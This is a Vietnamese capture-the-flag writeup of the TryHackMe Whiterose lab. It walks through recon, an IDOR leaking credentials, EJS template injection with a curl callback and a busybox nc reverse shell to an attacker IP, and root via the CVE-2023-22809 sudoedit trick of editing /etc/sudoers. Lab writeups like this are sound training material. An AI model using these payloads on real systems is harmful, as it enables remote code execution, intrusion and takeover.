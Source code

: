 <div align="center">
    <h1>🌹 TryHackMe Whiterose Writeup 🌹</h1>
</div>


<div align="right">
    <em>📌 By: Hoàng Vũ :).</em>
</div>

## 🚀1. Khởi động taget
![Start taget](Images/Start_machine.png)

## 🔍2. Recon
```
nmap -sC -sV 10.10.178.31 
```
![Nmap](Images/Recon_nmap.png)

- Sử dụng nmap quét cổng, thấy 2 cổng mở là `22` và `80`
    - Cổng `22` mở cho dịch vụ `SSH`
    - Cổng `80` chạy máy chủ web ` nginx 1.14.0 (Ubuntu)` qua http
- Truy cập vào địa chỉ ip trang web bằng trình duyệt, thấy được chuyển hướng sang `cyprusbank.thm`.

![Browser](Images/Recon_browser.png)

- Thêm tên miền này vào `etc/hosts` với địa chỉ ip mục tiêu, sau đó truy cập lại.

![hosts](Images/Recon_hosts.png)

- Sử dụng `gobuster` quét thư mục ẩn, tuy vậy có vẻ không có kết quả.

```
gobuster dir -u http://cyprusbank.thm/ -w /usr/share/dirbuster/wordlists/directory-list-2.3-medium.txt
```
![gobuster](Images/Subdomain_gobuster.png)

- Sử dụng `ffuf` để quét subdomain.

```
ffuf -w /usr/share/seclists/Discovery/DNS/subdomains-top1million-110000.txt -u http://cyprusbank.thm/ -H "Host:FUZZ.cyprusbank.thm" -fw 1 -t 100 -mc 200,301,302
```

![ffuf](Images/Subdomain_ffuf.png)

- Tìm được 2 subdomain là `www` và `admin`, truy cập thử vào 2 subdomain này (Lưu ý, thêm vào `etc/hosts` trước khi truy cập).

- Truy cập `http://admin.cyprusbank.thm/` trả về một `login page`

![login page](Images/Subdomain_admin.png)

- Sử dụng thông tin được gợi ý để đăng nhập `Olivia Cortez:olivi8`
- Đăng nhập thành công, truy cập được vào một số tài nguyên của trang web, trong đó một số bị hạn chế.

![login success](Images/Login_success.png)


## 🔑3. Truy cập trang web
- Thử tìm kiếm tên `Tyrell Wellick`, tuy nhiên, tài khoản hiện tại có vẻ chỉ xem được thông tin `Balance` mà không xem được số điện thoại.
![Tyrell Wellick](Images/Web1.png)

- Kiểm tra một lượt trang web, tại page `messages` với đường dẫn `http://admin.cyprusbank.thm/messages/?c=5` có chứa tham số `c=5` - dấu hiệu có thể bị `IDOR`

![Messages](Images/Web_mess.png)

- Thử giá trị của `c` với các số khác nhau. tại `c=9`, phát hiện thông tin mật khẩu của tài khoản `Gayle Bev`

![IDOR](Images/Web_IDOR.png)

- Đăng nhập vào trang Web bằng tài khoản này, thành công lấy được số điện thoại của `Tyrell Wellick`

![Tyrell](Images/Tyrell_phone.png)

- Submit thành công answer 1

![Tyrell](Images/Tyrell_correct.png)

## 📄4. Truy cập web shell

- Tiếp tục đăng nhập với tài khoản `Gayle Bev`, truy cập được page `Customer Settings` cho phép cập nhật mật khẩu của tài khoản nhân viên.

![setting](Images/WebShell1.png)

- Thử sử dụng `Burp Suite` bắt và kiểm tra payload khi thực hiện cập nhật mật khẩu.

![BurpSuite](Images/Burp_request.png)

- Mật khẩu sau khi cập nhật được hiển thị lại ở response, có thể dẫn tới `XSS`. Tuy vậy nhập thử một số payload XSS thì không thu được kết quả.
- Xóa thử trường `password`, kiểm tra response nhận được thông báo lỗi.

![BurpSuiteEjs](Images/Burp_request2.png)

- Có vẻ lỗi này có liên quan đến template engine `EJS`, có thể dẫn đến `SSTI - Server-Side Template Injection` trong `NoteJs`. Tìm kiếm thêm thông tin, tìm được một số bài viết liên quan: [EJS, Server side template injection ejs@3.1.9](https://github.com/mde/ejs/issues/720)

- Có vẻ lỗi này xuất hiện khi sử dụng biến trong template `EJS` mà không kiểm tra nó tồn tại, thì EJS sẽ ném lỗi `ReferenceError` nếu biến đó không được định nghĩa trong `render()`.
- Ở đây `password` không được truyền vào trong `res.render('template', { ... })` nên nó gây ra lỗi `ReferenceError: password is not defined`
- Dựa vào POC tìm được, ta có payload sau:
```
&settings[view options][outputFunctionName]=x;process.mainModule.require('child_process').execSync('curl http://10.21.175.20');//
```
- Trong đó:
    - Web server nhận trực tiếp tham số `settings[view options][...]` từ query hoặc body 
    - Web server không lọc hoặc validate các trường `settings[...]`, nên bạn inject thẳng vào cấu hình của `EJS`.
    - Lợi dụng việc ghi đè cấu hình để kết thúc đoạn EJS template sớm và chèn mã JavaScript tùy ý thông qua đoạn `process.mainModule.require('child_process').execSync(...)`
- Tạo python server và chèn thử payload trên vào request xem nó có chạy thành công không 

![Hoangdeptrai](Images/Ejs_payload.png)

![Hoangdeptrai](Images/Ejs_pythonServer.png)

- Có vẻ payload thực thi thành công, tiến hành tạo `reverse shell`

- Tạo shell trên revshells.com

![Hoangdeptrai](Images/Reverse.com.png)

- Ta được payload:
```
&settings[view options][outputFunctionName]=x;process.mainModule.require('child_process').execSync('busybox nc 10.21.175.20 1234 -e /bin/sh');//
```
- Chèn payload thông qua `Burp Suite`, listen port: `nc -lvnp 1234`

![Hoangdeptrai](Images/Insert_payload.png)

![Hoangdeptrai](Images/Reverse_shell.png)

- Sau khi nhận `reverse shell` thành công, update shell cho dễ nhìn:

![Hoangdeptrai](Images/Update_shell.png)

- Tìm kiếm web flag, tìm được trong file `/home/web/user.txt`

![Hoangdeptrai](Images/Flag1.png)

![Hoangdeptrai](Images/Flag1.1.png)

## ⚠️5. Leo quyền lên root shell
- Kiểm tra những quyền có thể chạy với sudo qua lệnh `sudo -l`

![Hoangdeptrai](Images/sudo-l.png)

- Có thể thấy ta có quyền chạy `sudoedit` với quyền sudo

- Tìm kiếm xem có lỗ hổng nào có thể khai thác với quyền này không 

![Hoangdeptrai](Images/sudoedit_cve.png)

- `CVE-2023-22809` cho phép leo thang đặc quyền với `sudo 1.8.0 đến 1.9.12p1`

![Hoangdeptrai](Images/CVE-2023-22809.png)
- Kiểm tra phiên bản sudo của máy chủ:

![Hoangdeptrai](Images/sudoedit-v.png)

-> Phiên bản phù hợp, có thể khai thác.
- Sử dụng lệnh:
```
export EDITOR="vi -- /etc/sudoers"
sudo sudoedit /etc/nginx/sites-available/admin.cyprusbank.thm
```

- Trong đó:
    - Biến môi trường `EDITOR` được `sudoedit` sử dụng để xác định trình soạn thảo văn bản
    - `vi -- /etc/sudoers` là cú pháp lợi dụng để ép vi mở file `/etc/sudoers` thay vì file hợp lệ được chỉ định.
    - Mục đích là đánh lừa `sudoedit` mở file tùy ý (`/etc/sudoers`) dù người dùng chỉ được cấp quyền chỉnh sửa `/etc/nginx/sites-available/admin.cyprusbank.thm.`
- Sau khi thành công mở file `/etc/sudoers` bằng `vi`, chèn thêm dòng `web ALL=(ALL:ALL) ALL` với mục đích cho user `web` có toàn quyền `sudo`

![Hoangdeptrai](Images/All_root.png)

- Sau khi chèn thành công, `sudo su` để vào quyền root

![Hoangdeptrai](Images/Sudo-su.png)

- Chiếm quyền `root` thành công, tìm flag trong `/root/root.txt`

![Hoangdeptrai](Images/flag2.png)

![Hoangdeptrai](Images/flag2.2.png)

=> Hoàn thành Lab :) 🔥🔥🔥

![Hoangdeptrai](Images/Complete.png)















